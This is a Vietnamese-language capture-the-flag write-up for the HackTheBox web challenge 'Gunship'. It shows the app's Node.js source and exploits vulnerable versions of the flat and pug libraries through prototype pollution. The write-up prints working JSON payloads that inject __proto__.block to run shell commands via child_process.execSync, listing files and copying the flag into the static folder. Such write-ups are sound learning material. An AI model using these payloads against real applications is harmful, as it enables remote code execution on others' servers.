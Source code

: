 ```yaml
---
tag:
    - htb
---
```

# Gunship

## Tóm tắt

Bài này là một bài White Box khi mà được cung cấp cả Source Code. 

Gunship là một Web Application được code bằng Nodejs có sử dụng phiên bản thư viện tồn tại lỗ hổng Prototype Pollution.  

## Walkthrough

Lướt qua ứng dụng thì có duy nhất một tính năng là tên xong trả về lời chào .\_.


![image (1).png](./gunship/DASj5ewOF.png)

Chúng ta cũng được cung cấp luôn source code.

 Có 2 endpoint trong đó API khá dài, có thể lỗi ở đây.

```javascript
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```

Bài này mình nhận ra ngay ở lúc đọc source. Sử dụng `Pug` là một template engine để compile thành html và sử dụng `flat` để `unflatten` dữ liệu. Hai thư viện này đã tồn tại lỗi ở một số phiên bản trước, 2 phiên bản này mình từng phân tích ở  [https://github.com/biennd279/pug-ast](https://github.com/biennd279/pug-ast) dựa trên bài [https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/) nên mình check luôn ở file `package.json` thì đúng vậy.

```javascript
{
	/** **/
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}

```

Nên sử dụng luôn Payload mình đã từng viết. Mình đẩy qua static để lấy được folder hiện tại đỡ phải đẩy ra bên ngoài.

```javascript
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('ls > /app/static/pwd')"
    }
}
```

![image (2).png](./gunship/El40tNjks.png)

Và lấy đẩy flag qua static và lấy flag về thôi.

```bash
{
    "artist.name":"Haigh dasea",
    "__proto__.block": {
         "type": "Text", 
         "line": "process.mainModule.require('child_process').execSync('cp /app/flag0HKDx /app/static/flag')"
    }
}
```

![image (3).png](./gunship/6EU-i1s4q.png)
